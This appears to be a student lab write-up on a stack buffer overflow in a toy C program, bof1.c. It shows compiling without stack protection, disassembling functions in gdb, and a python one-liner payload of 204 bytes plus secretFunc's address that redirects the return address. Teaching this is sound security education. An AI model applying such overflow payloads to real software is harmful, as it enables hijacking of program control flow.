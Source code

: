 # Understand bof1.c 
In this attack, we will try to replace the return address with another function's return address (redirect control) by using python!
## stackframe
![image](https://github.com/user-attachments/assets/d9271c92-c9d9-4b9f-80d6-a9cb30576c24)
## Vulnerbility
At "gets(array)"; function, we see that hackers can exploit the stackframe by adding more bytes in python in order to redirect the return address! 
# Start attacking bof1.c 
## Compiling the file without stack restriction
`gcc -g bof1.c -o bof1.out -fno-stack-protector -mpreferred-stack-boundary=2`    
![image](https://github.com/user-attachments/assets/21d80169-9f8e-4b30-9a74-2a1f724fe91e)
## Run gdb for futher examination
`gdb bof1.out`      
![image](https://github.com/user-attachments/assets/fd0f1874-33e5-462a-b728-5585a58f25f2)
## Try to see each func in machine code!
With **vuln**: `disas vuln`    
![image](https://github.com/user-attachments/assets/5cebaf7c-ea46-4f84-8ca1-5cadb035417b)  
With **secretFunc**: `disas secretFunc`  
![image](https://github.com/user-attachments/assets/9309975e-fe08-4948-b08a-ff2b48181bd6)  
=> We see that the address of  **secretFunc** is `0x0804846b`. So now, we are going to replace the **vuln's return address** with the **secretFunc's return address**.
## Calculate the total bytes to attack
As can be seen from the stackframe, we need in sum of 204 bytes of a and the last will be the return address of **secretFunc**  
Now we use `q` to exit and type `echo $(python -c "print('a'*204+'\x6b\x84\x04\x08')") | ./bof1.out 123` to see the result!  
![image](https://github.com/user-attachments/assets/e7537703-ab20-4977-96fb-a0ee086fc7ec)

